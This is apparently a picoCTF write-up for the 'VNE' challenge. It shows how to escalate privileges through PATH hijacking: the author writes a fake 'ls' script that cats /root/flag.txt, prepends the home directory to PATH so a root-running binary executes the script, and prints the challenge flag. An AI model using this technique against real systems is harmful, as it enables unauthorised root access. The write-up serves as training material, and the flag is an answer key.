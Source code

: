 # VNE

**200 points**

AUTHOR: JUNIAS BONOU

Description
We've got a binary that can list directories as root, try it out !!
Additional details will be available after launching your challenge instance.

*Note:* This challenge launches an instance on demand.

___

First the script expects us to have an environment variable set for SECRET_DIR.

There are two potential directories that have the same flag (I checked): 

```
/challenge
/root
```

I originally picked `/root`.

Running the program it gives returns:

```
Listing the content of /root as root:
flag.txt
```

Now the fun part, hint 2 tells us to "Find a way to add more instructions to the ls".

First I tried using alias --> nada,

I tried using function ls() --> nada.

And on and on, until I tried the following.

I made a script called `ls` using `cat >> ls` and typed the code:

```bash
#!/bin/bash

/bin/ls
/bin/cat /root/flag.txt
```

Then I made it executable with `chmod +x ls`.

Finally to trick the shell into running this version of `ls` instead of the builtin way we add the path to the current directory as the first directory that the shell will look for its commands with:

```bash
export PATH=/home/ctf-player/:$PATH
```

NOW, when running the script, it runs in the background the `ls` command and it looks at the PATH and sees a file called `ls` inside the first directory `/home/ctf-player` and executes its code with root privileges and we get the flag:

> picoCTF{Power_t0_man!pul4t3_3nv_fc3ff2c9}
